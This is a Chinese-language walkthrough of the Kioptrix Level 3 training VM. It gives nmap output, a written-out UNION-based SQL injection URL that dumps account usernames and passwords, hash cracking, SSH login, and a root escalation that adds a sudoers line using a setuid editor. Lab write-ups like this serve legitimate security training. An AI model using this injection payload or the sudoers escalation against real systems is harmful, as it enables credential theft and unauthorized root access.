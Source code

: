```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: 靶机 KIOPTRIX:LEVEL 3 Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2022-03-23
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false

typora-root-url: ..\..\..\.vuepress\public
---
```




扫描目标

```bash
└─# nmap -T5 -A -v -p- 192.168.197.130
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 04:47 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 04:47
Completed NSE at 04:47, 0.00s elapsed
Initiating NSE at 04:47
Completed NSE at 04:47, 0.00s elapsed
Initiating NSE at 04:47
Completed NSE at 04:47, 0.00s elapsed
Initiating ARP Ping Scan at 04:47
Scanning 192.168.197.130 [1 port]
Completed ARP Ping Scan at 04:47, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:47
Completed Parallel DNS resolution of 1 host. at 04:47, 13.00s elapsed
Initiating SYN Stealth Scan at 04:47
Scanning 192.168.197.130 [65535 ports]
Discovered open port 22/tcp on 192.168.197.130
Discovered open port 80/tcp on 192.168.197.130
Completed SYN Stealth Scan at 04:47, 3.96s elapsed (65535 total ports)
Initiating Service scan at 04:47
Scanning 2 services on 192.168.197.130
Completed Service scan at 04:47, 6.02s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 192.168.197.130
NSE: Script scanning 192.168.197.130.
Initiating NSE at 04:47
Completed NSE at 04:47, 0.16s elapsed
Initiating NSE at 04:47
Completed NSE at 04:47, 0.00s elapsed
Initiating NSE at 04:47
Completed NSE at 04:47, 0.00s elapsed
Nmap scan report for 192.168.197.130
Host is up (0.00059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Ligoat Security - Got Goat? Security ...
|_http-favicon: Unknown favicon MD5: 99EFC00391F142252888403BB1C196D2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
MAC Address: 00:0C:29:5F:2B:EF (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Uptime guess: 497.101 days (since Mon Nov  9 01:22:38 2020)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=206 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.59 ms 192.168.197.130

NSE: Script Post-scanning.
Initiating NSE at 04:47
Completed NSE at 04:47, 0.00s elapsed
Initiating NSE at 04:47
Completed NSE at 04:47, 0.00s elapsed
Initiating NSE at 04:47
Completed NSE at 04:47, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.22 seconds
           Raw packets sent: 65555 (2.885MB) | Rcvd: 65551 (2.623MB)

```

存在80端口，访问

![image-20220421172004140](/assets/img/image-20220421172004140.png)



点击login查看，发现使用的LotusCMS

![image-20220421172030804](/assets/img/image-20220421172030804.png)

搜索exp

![image-20220421172058784](/assets/img/image-20220421172058784.png)

使用msf

![image-20220421172102677](/assets/img/image-20220421172102677.png)

![image-20220421172107234](/assets/img/image-20220421172107234.png)

获得shell，尝试很多提权不成功

重新查看页面，在http://kioptrix3.com/gallery/index.php里发现注释的文件路径

![image-20220421172113072](/assets/img/image-20220421172113072.png)

访问http://kioptrix3.com/gallery/gadmin/

![image-20220421172118679](/assets/img/image-20220421172118679.png)

再搜索exp

![image-20220421172125489](/assets/img/image-20220421172125489.png)

尝试sql注入，访问http://kioptrix3.com/gallery/gallery.php?id= 返回sql错误信息，确定存在sql注入

通过手动注入http://kioptrix3.com/gallery/gallery.php?id=1%20or%201=0%20union%20select%201,group_concat(char(32),%20username,%20char(32),%20password)%20,3,4,5,6%20from%20dev_accounts--

![image-20220421172131330](/assets/img/image-20220421172131330.png)

使用https://crackstation.net/解密

![image-20220421172137319](/assets/img/image-20220421172137319.png)

使用loneferret账号通过ssh登录

![image-20220421172141908](/assets/img/image-20220421172141908.png)

在home目录下发现一个文件

![image-20220421172146161](/assets/img/image-20220421172146161.png)

查看ht，发现存在s权限

![image-20220421172151403](/assets/img/image-20220421172151403.png)

搜索ht，发现是一个二进制编辑器，可以用来编辑修改/etc/sudoers,F6切换到text内容显示

在最后一行加入

loneferret ALL=(ALL) ALL 

保存退出

![image-20220421172158053](/assets/img/image-20220421172158053.png)

执行sudo su，获得root

![image-20220421172202284](/assets/img/image-20220421172202284.png)

![image-20220421172206012](/assets/img/image-20220421172206012.png)
